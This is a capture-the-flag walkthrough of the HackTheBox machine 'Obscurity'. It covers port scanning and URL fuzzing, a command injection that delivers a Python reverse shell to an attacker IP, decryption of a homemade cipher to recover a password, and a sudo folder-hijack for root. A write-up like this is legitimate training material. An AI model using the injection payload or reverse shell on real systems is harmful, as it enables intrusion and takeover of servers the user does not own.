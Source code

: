 ```yaml
---
author: k0z4c
title: Obscurity
tags: hackthebox
---
```


## **Getting Access**

We start with

```bash
nmap -Pn -n -O -sC -vv -oA nmap/tcp_default obscurity
```
![]({% link assets/htb/obscurity/nmap.png %})

Looking at port 8080 and reading the home page we can see that there's a file somewhere on the webserver  called SuperSecureServer.py 

![]({% link assets/htb/obscurity/hint.png %})

We can try to fuzz the URL http://obscurity:8080 to search for that file; so we fire up dirbuster and we set URL fuzzing 
with this value /{dir}/SuperSecureServer.py using the wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt .

![]({% link assets/htb/obscurity/dirb.png %})

Let's download the file!

![]({% link assets/htb/obscurity/download.png %})

Diving into the source code we can see that handleRequest is the method of the class Server that perform the business logic 

![]({% link assets/htb/obscurity/handle.png %})

So looking at it, we can spot a command injection point in the called function serveDoc

![]({% link assets/htb/obscurity/injection.png %})

So we can inject commands simply doing an HTTP request that closes the quotes with:

```bash
'; <payload>;'
```

So we inject a reverse shell coded in python as the payload. 
Then, doing this HTTP request that will spawn a reverse shell on 443

```python
http://obscurity:8080/';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.44",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

So, after firing up a netcat linstener on 443 to handle the connection back,  we do:
(the URL is encoded with URL encoding) 

![]({% link assets/htb/obscurity/inj_exploit.png %})

... and voila!

![]({% link assets/htb/obscurity/user.png %})

## **Privilege escalation to user**

Poking around we find robert's folder 

![]({% link assets/htb/obscurity/robert.png %})

Let's see.. passwordreminider.txt is encrypted. So, analyzing SuperSecureCrypt.py nothing interesting is found.. 
So trying with the things we have, we end up that the user ciphered the key for passwrodreminder.txt (out.txt) with check.txt. 

Manipulating now a quick decrypter that reads the key from a file

```python
# file decrypt.py 

def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr - ord(keyChr)) % 255)
        decrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return decrypted

if __name__ == '__main__':

        with open('check.txt', 'r', encoding='UTF-8') as f:
                key = f.read()

        with open('out.txt', 'r', encoding='UTF-8') as f:
                text = f.read()
        decrypted = decrypt(text, key)
        print(decrypted)
```

Then we recover the key for passwrodreminder.txt

![]({% link assets/htb/obscurity/mid.png %})

We save the result in a file called key.txt. Then changing in our script the key file with key.txt and out.txt with the passwordreminder.txt and we get the password:

![]({% link assets/htb/obscurity/key.png %})

.. OKay, what next? 
There was an SSH port opened.. let's try!

So, Connecting now through SSH with the new key we log as robert user

![]({% link assets/htb/obscurity/login.png %})

Now we can read the user's flag

![]({% link assets/htb/obscurity/user_flag.png %})

user pwnd!

let's move forward

## Privilege escalation for root

Looking at the BetterSSH.py script we see that it uses sudo; so it is enabled on the system and user robert is in the sudoers file too.
Then let's check robert's sudo privileges

![]({% link assets/htb/obscurity/sudo.png %})

So roberts can execute BetterSSH.py with root privileges without requiring a password neither.

The first thing that came on to my mind was to backdoor the file but we can not modify the script (owned by root). 
So after a while, we can spot that yes, we can not modify the file but we can modify the folder

![]({% link assets/htb/obscurity/spot.png %})

so.. we can implant a new  script with the name BetterSSH.py that spawns a root shell. 
Very very bad, mr. Robert!

Writing then a quick script to obtain a shell through python (recycle, man) and saving it as BetterSSH.py in a new BetterSSH folder:
(remember to mv the original one like mv BetterSSH smth)

```python
# BetterSSH.py
while True:
    command = input('> ')
    cmd.extend(command.split(" "))
    proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

    o,e = proc.communicate()
    print('Output: ' + o.decode('ascii'))
    print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

let's execute now the script with sudo 

![]({% link assets/htb/obscurity/root.png %})

... pwned (:
